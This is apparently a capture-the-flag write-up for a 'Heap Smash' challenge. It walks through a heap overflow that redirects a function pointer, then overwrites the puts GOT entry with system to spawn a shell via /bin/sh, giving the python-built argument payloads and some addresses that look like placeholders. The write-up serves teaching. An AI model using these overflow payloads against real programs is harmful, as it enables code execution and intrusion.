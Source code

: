 ```yaml
---
title:  "Writeup: Heap Smash"
date:   2019-05-03 16:00:00
categories: writeup
author: Matt McDonald
layout: post
---
```


Heap Smash is a binary in the "pwnables" category, meaning we get the source code for
it, but it will be slightly harder than some of the challenges in the lecture category.
Let's take a look at the source code and try to find a vulnerability:

```
struct net{
    char s[16];
    int (*fp)();
};

void unlock_env(){
    setenv("door", "unlocked",1);
}

void you_lose(){
    printf("You lose\n");
    exit(0);
}

int main(int argc, char **argv){
    char *env_name = "door";
    char buffer[60];
    struct net *a; 
    struct net *b;
    
    if(argc < 3){
        printf("%d args, Not Enough Arguments\n", argc);
        exit(0); 
    }

    setenv("door", "locked", 0);
    a = malloc(sizeof(struct net));
    a->fp = you_lose;
    strcpy(a->s, argv[1]);
    a->fp();
    free(a);
    b = malloc(sizeof(struct net));

    if(!strcmp(getenv(env_name), "locked")){
        printf("Closer, but you still lose\n");
        exit(0);
    }

    if(!strcmp(getenv(env_name), "unlocked")){
        printf("now you're on the right track\n");
        //strcpy(buffer, argv[4]); //SMALL CHANGE
        strcpy(b->s, argv[2]);
        strcpy(a->fp, argv[3]);
        //printf ("lets see\n");
        printf("%s\n", argv[4]);
    }
}
```

There's a lot going on here, and it actually looks like there's more than one vulnerability
for us to exploit. Early on, we see that strcpy is used to load in from our user input
into a struct, meaning we have a chance to overflow. Then, if we can somehow make it into the
bottom if statement, we can see that there are two more calls to strcpy. Notably, the final
call to strcpy is operating on ```a->fp```, which is a pointer - this means we could potentially
use this to write to any location in memory we want! But before we can use that exploit, we need
to find a way into the if statement.

Somehow, we need to set the environment variable "door" to "unlocked". Unfortunately, it isn't
as simple as doing this outside of the program, as the door is set to "locked" right at the
start of the program. On the bright side, though, there seems to be a convenient function
called "unlock_env" that does exactly what we need! 

So how can we force the program to call this function for us? By default, the struct "a" is 
allocated and filled with the address of the "you_lose" function, which is then called. If 
we could find a way to replace the value of ```a->fp``` with the unlock function, then we
would make it into the if statement as planned. 

This is a relatively simple exploit, similar to what we performed in heap0. Right before
the function is called, we strcpy into the string field of the pointer, which is 16
bytes long. To overflow this, all we'll need to do is type 16 bytes of garbage, followed
by the address of unlock_env:

```
> objdump -t heap_smash | grep unlock_env
0000000000112233 g     F .text  000000000000001b              unlock_env

> ./heap_smash $(python -c 'print "a"*16 + "\x33\x22\x11\x00"')
now you're on the right track
[1]    293 segmentation fault (core dumped) 
```

Great! Now we're moving forward. But what do we do from here? As we noticed before, the
second strcpy could probably be used to overwrite something in the GOT. Presumably, we would
replace some function with system, and then find a way to pass in /bin/sh as an argument.
But the only function after that strcpy is printf, and unfortunately we only have control over
the second argument, which wouldn't work. Or would it?

Lets open up the executable in GDB, and take a look at the full disassembly. This is a long
one, so I'll cut down to only the relevant parts:

```
> gdb heap_smash
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400809 <+0>:     push   %rbp
   0x000000000040080a <+1>:     mov    %rsp,%rbp
   [...]
   0x0000000000400931 <+296>:   callq  0x400640 <strcpy@plt>
   0x0000000000400936 <+301>:   mov    -0x80(%rbp),%rax
   0x000000000040093a <+305>:   add    $0x18,%rax
   0x000000000040093e <+309>:   mov    (%rax),%rdx
   0x0000000000400941 <+312>:   mov    -0x60(%rbp),%rax
   0x0000000000400945 <+316>:   mov    0x10(%rax),%rax
   0x0000000000400949 <+320>:   mov    %rdx,%rsi
   0x000000000040094c <+323>:   mov    %rax,%rdi
   0x000000000040094f <+326>:   callq  0x400640 <strcpy@plt>
   0x0000000000400954 <+331>:   mov    -0x80(%rbp),%rax
   0x0000000000400958 <+335>:   add    $0x20,%rax
   0x000000000040095c <+339>:   mov    (%rax),%rax
   0x000000000040095f <+342>:   mov    %rax,%rdi
   0x0000000000400962 <+345>:   callq  0x400650 <puts@plt>
   0x0000000000400967 <+350>:   mov    $0x0,%eax
   0x000000000040096c <+355>:   mov    -0x8(%rbp),%rcx
   0x0000000000400970 <+359>:   xor    %fs:0x28,%rcx
   0x0000000000400979 <+368>:   je     0x400980 <main+375>
   0x000000000040097b <+370>:   callq  0x400670 <__stack_chk_fail@plt>
   0x0000000000400980 <+375>:   leaveq
   0x0000000000400981 <+376>:   retq
End of assembler dump.
```

Here, we can see the last two calls to strcpy inside our if statement. But instead of a call to
printf, we have a call to puts! Since the format string was simply just printing the argument
followed by a newline, the compiler optimized it out, and replaced it with a call to puts. This
means that argv[4] is the first parameter to the call to puts, and we can definitely use this to
launch a shell.

So how do we accomplish this? We're going to want to use the first strcpy to overflow the struct
such that the pointer is pointing to the address of puts in the GOT. Then, the second copy will 
change the value there to be equal to the address of system instead. Finally, argv[4] will be
"/bin/sh", and we will launch a shell!

Performing the overflow will be very straightforward, and use almost exactly the same process 
as the first overflow. We just need to find the address of system and the address of puts:

```
(gdb) x/i 0x400650
   0x400650 <puts@plt>: jmpq   *0x2009da(%rip)        # 0x600000
(gdb) p system
$1 = {int (const char *)} 0x7fffff000000 <__libc_system>
```

So to recap:
argv[1] will be 16 bytes of junk, followed by the address of unlock_env, to change the first pointer
argv[2] will be 16 bytes of junk, followed by the address of puts, to change the second pointer
argv[3] will be the address of system, to be written into the GOT
argv[4] will simply be /bin/sh

Let's put it all together and give it a try:

```
./heap_smash $(python -c 'print "a"*16 + "\x33\x22\x11\x00"') 
             $(python -c 'print "a"*16 + "\x00\x00\x60\x00\x00\x00\x00\x00"') 
             $(python -c 'print "\x00\x00\x00\xff\xff\x7f\x00\x00"') 
             /bin/sh
```

With the correct addresses, this should launch an admin shell and allow you to view the flag!